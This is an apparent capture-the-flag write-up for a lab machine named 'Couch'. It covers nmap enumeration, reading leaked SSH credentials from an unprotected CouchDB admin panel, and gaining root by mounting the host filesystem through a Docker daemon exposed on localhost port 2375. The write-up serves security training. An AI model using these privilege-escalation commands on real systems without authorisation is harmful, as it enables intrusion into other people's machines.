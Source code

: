 # Couch

## Enumeration

```
# Nmap 7.91 scan initiated Tue Jul  6 11:02:39 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,5984 10.10.196.59
Nmap scan report for 10.10.196.59
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-07-06 11:02:40 PDT for 17s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack ttl 61 CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 11:02:57 2021 -- 1 IP address (1 host up) scanned in 18.19 seconds
```

SSH on port 22 and a DB endpoint called CouchDB on port 5984. Lets check out CouchDB and see what we can find.

## CouchDB Port 5984

Looking at the documentation for CouchDB we can use an administration tool located at http://server.ip:5984/_utils/. We are immediately presented a list of databases. The database title secret stands out and sure enough if we examine its content we find a field passwordbackup with credentials that work on SSH so lets move on to the actual machine and see what we can find.

## Initial Foothold/Privilege Escalation

We can find the user.txt flag in the home directory we are placed in. We don't have sudo permissions however our .bash_history has not been cleared and we see the following line of interest

```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Looks like docker is running locally with elevated privileges, so lets use a common privilege escalation method to try and get root privileges
```
docker run -it -v /:/host/ alpine chroot /host/ bash
```

Unfortunately we get permission denied because we cannot connect to the socket. It is running locally on port 2375 so we likely need to specify the host address so we modify the command as follows
```
docker -H 127.0.0.1:2375 run -it -v /:/host/ alpine chroot /host/ bash

```

Sure enough this works and we have root and can find the root.txt flag in /root
